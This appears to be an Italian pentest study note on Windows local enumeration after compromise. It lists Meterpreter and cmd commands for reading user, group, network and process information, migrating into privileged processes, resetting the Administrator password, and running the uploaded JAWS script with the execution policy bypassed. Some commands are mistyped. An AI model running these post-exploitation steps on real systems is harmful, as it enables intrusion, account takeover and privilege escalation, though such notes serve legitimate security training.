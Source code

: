 
# Windows local enumeration
Quando otteniamo l'accesso ad un sistema windows, la prima fase é quella che consiste nel enumerare il sistema ottenendo l'id del utente attuale e informazioni sul sistema. 
```bash
meterpreter > getuid
meterpreter > sysinfo
meterpreter > cd C:/Windows/System32
meterpreter > cat eula.txt                               # file che da altre informazioni sul sistema operativo 
meterpreter > shell
#comandi windows
hostname
systeminfo
wimc qfe get Caption,Description,HotFixID,InstalledOn     # per avere altre informazioni sugli hotfixs (patch)

```

### Enumerare Utenti e Gruppi
Serve per vedere l'utente attuale e che permessi ha e di che gruppo fa parte. <br>
possiamo anche ottenere gli utenti che fanno parte del gruppo amministratori per poter tentare di exploitarli. <br> 
```bash
meterpreter > getprivs                                    # per visualizzare gli attuali permessi
meterpreter >  background
use post/windows/gather/enum_logged_on_users              # modulo per enumerare gli utenti su un target windows
set session 1
run
sessions 1
meterpreter > shell
# enumerazione utenti manuale
whoami
whoami /privs                                              # enumerare i permessi attuali
query user                                                 # per visualizzare gli utenti collegati e quando
net users                                                  # enumerare tutti gli utenti nel sistema
net user administrator                                     # ottenere informazioni sul account amministratore (possiamo mettere qualisasi nome utente)
net user Administrator NuovaPassword1234                   # per cambiare la password dell'account administrator se si hanno alti privilegi
net localgroup                                             # enumerare tutti i gruppi presenti sul sistema
net localgroup administrators                              # visualizzare i componenti del gruppo administrators (possiamo mettere qualsiasi nome gruppo)
```

### Enumerare le informazioni di rete
Abbiamo anche bisogno di poter enumerare gli attuali indirizzi per poter identificare le impostazioni di rete interne e i servizi in esecuzione sulle porte TCP/UDP.
```bash
meterpreter > shell
ipconfig
ipconfig /all
route print                  # visualizzare la routing table
arp -a                       # aprire la arp table e visualizzare gli altri host collegati alla stessa rete del target
netsat -ano                  # per visualizzare la lista dei servizi attualmente in esecuzione o in ascolto
netsh firewall show state
#oppure
netsh advfirewall show allprofile
```

### Enumerare i processi
Enumerare i processi é importante per poter migrare la sessione meterpreter verso un processo con privileggi superiori e quindi effettuare un privilege escalation, e per poter identificare delle task con debbolezze nella configurazione per poterle exploitare. <br>
```bash
meterpreter > ps                          # mostra i processi attualmente in esecuzione e dovviamo fare caso al PID e al USER che sia NT AUTHORITY
meterpreter > pgrep <PROCESSNAME>         # per cercare il pid di un determianto processo. Preferiamo sempre cercare il processo explorer.exe
meterpreter > migrate <PID>
meterpreter > shell
net start                                  # mostrare i servizi (non sono processi, i servizi lavorano in background)
wmic service list brief                   # mostra i servizi in esecuzione
tasklist /svc                            # mostra i processi in esecuzione sotto un determinato processo
schtasks /query /fo LIST /v               # mostra le sheduled tasks 
```

### Automatizzare la local enumeration
Esistono alcuni scripts che permettono di enumerare tutte le infgormazioni ottenute precedentemente in modo automatico <br>
Uno script interessante é JAWS (Just Another Windows (enumeration) Script) che é possibile scaricare tramite questo <a href="https://github.com/411Hall/JAWS">link</a> <br>
JAWS é uno script che permette di identificare potenziali vettori per un privilege escalation ed é scritto in PowerShell 2.0 quindi dovrebbe poter girare su tutte le versioni superiori di windows 7. <br>
per poterlo usare basta copiare il raw del file .ps1 e incollarlo in un file .ps1 sulla nostra macchina kali per poi inniettarlo sul target tramite una sessione meterpreter
```bash
meterpreter > cd C:/Temp
meterpreter > upload path/di/JAWS.ps1
meterpreter > shell
dir                           # per confermare che il file é stato uploadato con successo
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-ENUM.txt
# questo comando indica a windows che vogliamo eseguire tramite powershell lo script JAWS e salvare i risultati nel file JAWS-ENUM.txt
# torniamo ora su meterpreter, premendo CTRL+C, per poter scaricare il file creato da JAWS
meterpreter > download JAWS-ENUM.txt
```
